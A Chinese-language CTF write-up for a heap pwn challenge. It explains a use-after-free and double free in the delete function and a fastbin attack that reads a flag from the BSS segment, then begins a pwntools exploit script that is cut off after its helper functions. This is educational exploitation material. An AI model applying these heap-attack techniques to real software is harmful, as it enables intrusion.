 

## 0x05 SecondDay_Some_thing_exceting

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-014648.png)

可以发现程序除了PIE之外保护全部开启了。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-014843.png)

可以发现，程序在启动时就已经将flag读入了BSS段，并且在存储flag的内存区域上方已经预留了一个`x60`

接着可以很快发现在delete函数中，程序在删除`banana`时，free后未将指针置0。存在UAF以及UAF衍生出的`Double free`漏洞。于是可以使用`fastbin attack`借助预留的`x60`将chunk直接分配过去，flag就会恰好在ba的位置，可以直接进行读取。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-015228.png)

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elif context.arch == 'i386':
    libc=ELF("/lib/i386-linux-gnu/libc.so.6")

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./")
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./excited")

def get_address(sh,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

def creat(sh,name_size,name_value,desc_size,desc_value):
```